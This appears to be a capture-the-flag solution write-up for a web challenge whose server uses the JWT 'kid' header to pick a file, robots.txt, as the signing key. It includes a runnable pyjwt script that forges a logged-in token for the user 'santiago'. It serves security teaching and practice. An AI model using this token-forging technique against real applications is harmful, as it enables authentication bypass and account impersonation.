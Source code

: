 # Intended solution

1. Copy the JWT from your browser's cookies and observe that the header includes the field "kid"
2. Observe that you can access /robots.txt
3. Download robots.txt and use the following python script to generate a valid JWT 

*Note: the python script uses the package pyjwt*

```python
import jwt

payload_data = {
    'loggedin': True,
    'username': 'santiago'
}

header_data = {'kid': 'robots.txt'}

with open("robots.txt") as f:
	secret = f.read()
token = jwt.encode(headers=header_data, payload=payload_data, key=secret, algorithm='HS256')
print(token)
```

4. Paste the valid JWT in your browser
5. Refresh the page